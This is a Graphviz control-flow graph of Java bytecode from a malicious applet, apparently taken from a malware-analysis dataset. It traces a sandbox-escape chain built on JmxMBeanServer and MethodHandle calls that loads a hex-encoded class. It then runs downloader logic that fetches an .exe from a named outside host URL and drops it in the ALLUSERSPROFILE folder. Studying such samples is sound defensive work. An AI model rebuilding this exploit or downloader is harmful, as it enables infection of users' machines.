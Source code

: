 digraph "" {
    "r0 := @this: amor"
    "load.r r0"
    "r0 := @this: amor"->"load.r r0";
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"
    "load.r r0"->"staticget <amor: java.lang.String ByteArrayWithSecOff>";
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"->"virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>";
    "store.r r54"
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"->"store.r r54";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r54"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "staticinvoke <pC: void DoFirst(java.lang.Object)>"
    "checkcast"->"staticinvoke <pC: void DoFirst(java.lang.Object)>";
    "staticinvoke <pC: void genLookup()>"
    "staticinvoke <pC: void DoFirst(java.lang.Object)>"->"staticinvoke <pC: void genLookup()>";
    "push 1"
    "staticinvoke <pC: void genLookup()>"->"push 1";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"staticput <amor: java.lang.invoke.MethodType localMethodType2>";
    "staticinvoke <pC: java.lang.Object[] genObj1()>"
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"->"staticinvoke <pC: java.lang.Object[] genObj1()>";
    "store.r r4"
    "staticinvoke <pC: java.lang.Object[] genObj1()>"->"store.r r4";
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"
    "store.r r4"->"staticget <pC: java.lang.invoke.MethodHandle lMH1>";
    "load.r r4"
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"->"load.r r4";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push 0";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"
    "push 0"->"staticinvoke <pC: java.lang.invoke.MethodType mtR()>";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <amor: java.lang.Class localClass2>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <amor: java.lang.Class localClass2>";
    "push class \"Ljava/lang/ClassLoader;\""
    "staticget <amor: java.lang.Class localClass2>"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>";
    "store.r r9"
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"->"store.r r9";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "load.r r9"
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 2"
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"->"store.r r9";
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 3"
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 2";
    "load.r r54"
    "push 2"->"load.r r54";
    "load.r r54"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <pC: void nI(java.lang.Class)>"
    "checkcast"->"staticinvoke <pC: void nI(java.lang.Class)>";
    "new java.lang.StringBuilder"
    "staticinvoke <pC: void nI(java.lang.Class)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"SRESULLA\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"SRESULLA\"";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"
    "push \"SRESULLA\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ELIFORP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r9";
    "store.r r9"->"push null";
    "push null"->"store.r r54";
    "store.r r54"->"push 0";
    "store.b r4"
    "push 0"->"store.b r4";
    "store.b r4"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "store.r r18"
    "arrayread.r"->"store.r r18";
    "store.r r18"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"arrayread.r";
    "store.r r19"
    "arrayread.r"->"store.r r19";
    "store.r r19"->"load.r r9";
    "load.r r9"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r4";
    "store.b r4"->"load.r r0";
    "load.r r18"
    "load.r r0"->"load.r r18";
    "load.r r18"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r54";
    "load.r r54"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "load.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r19";
    "load.b r4"
    "load.r r19"->"load.b r4";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r4"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"load.r r0";
    "push \"http://zelinares.com.br/p.gif\""
    "load.r r0"->"push \"http://zelinares.com.br/p.gif\"";
    "push \"http://zelinares.com.br/p.gif\""->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r54";
    "load.r r54"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\update2.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\update2.\"";
    "push \"\\update2.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"exe\"";
    "push \"exe\""->"push 1";
    "push 1"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"store.r r0";
    "store.b r4"->"load.r r0";
    "load.r r0"->"load.r r9";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r9"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r54";
    "goto load.r r0"
    "store.r r54"->"goto load.r r0";
}
